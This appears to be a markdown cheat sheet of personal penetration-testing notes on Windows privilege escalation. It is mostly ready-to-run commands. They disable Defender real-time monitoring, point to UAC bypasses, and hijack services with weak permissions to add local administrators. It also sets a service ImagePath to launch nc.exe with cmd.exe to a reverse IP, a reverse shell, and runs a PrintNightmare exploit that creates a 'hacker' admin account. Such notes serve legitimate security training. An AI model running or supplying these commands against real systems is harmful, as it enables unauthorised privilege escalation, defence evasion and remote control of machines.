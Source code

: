 [Windows Vulnerabilities.](https://msrc.microsoft.com/update-guide/vulnerability)

Disable windows AV 
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## [User Account Control](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works) 
consent prompted elevated privileges. 
[How it works](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works) 
[10 Group Policy Settings](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/settings-and-configuration?tabs=intune)
Forces an attacker to become noisy. 
RID 500 Admin always operates at a higher mandatory level with Admin Approval Mode (AAM) enabled. 
New accounts operate at medium level.
Confirm UAC is enabled:
```shell-session
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

Check UAC level:
```shell-session
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

```powershell
[environment]::OSVersion.Version
```
0x5 is the highest level.
UAC works different on windows [versions](https://en.wikipedia.org/wiki/Windows_10_version_history)

#### [UAC bypasses.](https://github.com/hfiref0x/UACME)
Find a UAC that works in targets window version under keys. 
Google may have tutorial for exploit?
Run a DLL
```shell-session
rundll32 shell32.dll,Control_RunDLL <path to dll>
```

## Weak Permissions 
[SharpUp](https://github.com/GhostPack/SharpUp/) from GhostPack suite
Checks for weak ACLs on binaries. 
```cmd
.\SharpUp.exe audit
```
Service Binaries:
Verify vuln with [icals](https://ss64.com/nt/icacls.html)
```cmd
icals <path to exe>
```
Replace the binary with a malicious one through msfvenom
```cmd
cmd /c copy /Y <exe> "<path to target>"
```
```shell-session
sc start <service name>
```
Service Permissions 
Check permissions with [AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)
```cmd
accesschk.exe /accepteula -quvcw <service>` #(.exe not needed)
```

```shell
-q = omit banner
-u = surpress erros
-v = verobse
-c = specify name of windows service
-w = objects with write only. 
```


Change the service binary:
```cmd
sc config WindscribeService binpath="cmd /c net localgroup administrators <user>/add"
```
Stop the service 
```cmd
sc stop <service>
```
Start the service 
```cmd
sc start <service>
```
confirm local access
```cmd
net local group administrators
```
### Cleanup
Revert the binary path 
```cmd
sc config <service> binpath="<path>"
```
Start the service 
```cmd
sc start <service>
```

### Unquoted Service Paths
Rare to exploit. If service path isn't in ""  windows will search for it in root path.  May be able to hijack the service. 

Search for unquoted service path:
```cmd
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```
Permissive Registry ACLs. 
Example: 
```shell
C:\users\hello 123\test.exe
```
Make a a file called `hello.exe`
Search for weak ACLs
```cmd
accesschk.exe /accepteula "<user>" -kvuqsw hklm\System\CurrentControlSet\services
```
Change the ImagePath value in powershell
```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "<path to nc.exe> -e cmd.exe <reverse ip> <reverse port>"
```
Modify Registry Autorun Binaries.
```powershell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```
If you have write permissions to a binary you may be able to escalate privileges next time that user logs in. 
## Kernel Exploits
If SAM is readable: [CVE-2021-36934](https://www.exploit-db.com/docs/50245)

### [CVE-2021-1675 / CVE-2021-34527](https://www.exploit-db.com/docs/50537)Print Nightmare
check for spoiler service 
```powershell
ls \\localhost\pipe\spoolss
```
Add local admin with printnightmare 
```powershell
Set-ExecutionPolicy Bypass -scope Process
```
Import powershell script
```powershell
Import-Module ./CVE-2021-1675.ps1

Invoke-Nightmare -NewUser "hacker" -NewPassword "1234" -DriverName "Print"
```
Confirm new user 
```shell-session
net user hacker
```

### Vulnerable Services
Permitted to install software or vulnerable third-party applications. 
Check installed programs
```cmd
wmic product get name
```
Check local ports
```cmd
netstat -ano
```
Check the process ID 
```powershell
get-process -Id <PID>
```
Enumerate Running Service 
```powershell
get-service | ? {$_.DisplayName -like '<name>'}
```
